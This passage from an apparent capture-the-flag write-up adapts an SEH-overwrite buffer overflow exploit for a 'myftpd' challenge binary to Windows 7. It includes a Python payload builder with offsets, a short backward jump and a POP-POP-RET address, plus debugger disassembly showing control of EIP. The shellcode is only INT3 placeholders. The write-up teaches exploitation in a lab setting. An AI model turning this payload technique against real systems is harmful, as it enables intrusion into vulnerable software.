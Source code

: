 ``` txt
022CFFBC   41               INC ECX
022CFFBD   41               INC ECX
022CFFBE   41               INC ECX
022CFFBF   41               INC ECX
022CFFC0   41               INC ECX
022CFFC1   41               INC ECX
022CFFC2   41               INC ECX
022CFFC3   41               INC ECX
022CFFC4   CC               INT3                      <== EIP points here
022CFFC5   CC               INT3
022CFFC6   CC               INT3
022CFFC7   CC               INT3
022CFFC8   2337             AND ESI,DWORD PTR DS:[EDI]
022CFFCA   40               INC EAX
```

We have control. But this is where things start to change. It turns out that on Windows 7 the offset of our shellcode start is slightly different. The overwrite with zeros (as per the XP version) is still there, but appears in a different spot. We've got a few more bytes to play with around the shellcode area due to use not having to deal with `EIP` having a valid address in the middle of our shellcode. A quick calculation reveals that we have a total of `0x54` (`84`) bytes to play with. We can adjust our payload again to set up for more shellcode golf with the following code:

``` python
seh_offset = 354
nseh_offset = seh_offset - 4
sc_len = 0x54
sc_offset = nseh_offset - sc_len
payload  = "A" * sc_offset
payload += "\xCC" * 4
payload += "A" * (nseh_offset - len(payload))
payload += "\xEB\xAA\x90\x90"            # jmp back to sc_offset start
payload += struct.pack("<L", 0x00403723)
```

We fire this off again and we see this at the point where the PPR returns:

``` txt
0231FFC1   41               INC ECX
0231FFC2   41               INC ECX
0231FFC3   41               INC ECX
0231FFC4  ^EB AA            JMP SHORT 0231FF70         <= EIP is here
0231FFC6   90               NOP
0231FFC7   90               NOP
0231FFC8   2337             AND ESI,DWORD PTR DS:[EDI]
```

At which point we then jump to the start of our shellcode here:

``` txt
0231FF6C   0000             ADD BYTE PTR DS:[EAX],AL
0231FF6E   0000             ADD BYTE PTR DS:[EAX],AL
0231FF70   CC               INT3                       <= EIP is here
0231FF71   CC               INT3
0231FF72   CC               INT3
0231FF73   CC               INT3
0231FF74   41               INC ECX
0231FF75   41               INC ECX
0231FF76   41               INC ECX
0231FF77   41               INC ECX
```


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization